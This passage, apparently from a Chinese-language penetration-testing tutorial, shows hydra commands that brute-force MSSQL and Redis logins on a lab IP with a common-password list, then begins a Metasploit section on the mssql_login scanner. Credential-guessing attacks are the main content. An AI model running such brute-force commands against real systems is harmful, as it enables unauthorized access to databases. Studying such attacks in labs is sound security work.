 ### 6.7 mssql

```bash
$ hydra -l sa -P ./top500.txt -e ns -vV -f 192.168.31.57 mssql
```

![image-20250317235614010](穷举/image-20250317235614010.png)

### 6.8 redis

```bash
$ hydra -P ./top500.txt -e ns -vV -f 192.168.31.57 redis
```

![image-20250317235842515](穷举/image-20250317235842515.png)

## 7 metasploite穷举模块

### 7.1 mssql爆破

```bash
$ msfconsole # 启动msf

msf6 > search auxiliary/scanner/mssql/mssql_login # 搜索模块

Matching Modules
================

   #  Name                                 Disclosure Date  Rank    Check  Description
   -  ----                                 ---------------  ----    -----  -----------
   0  auxiliary/scanner/mssql/mssql_login  .                normal  No     MSSQL Login Utility


Interact with a module by name or index. For example info 0, use 0 or use auxiliary/scanner/mssql/mssql_login
```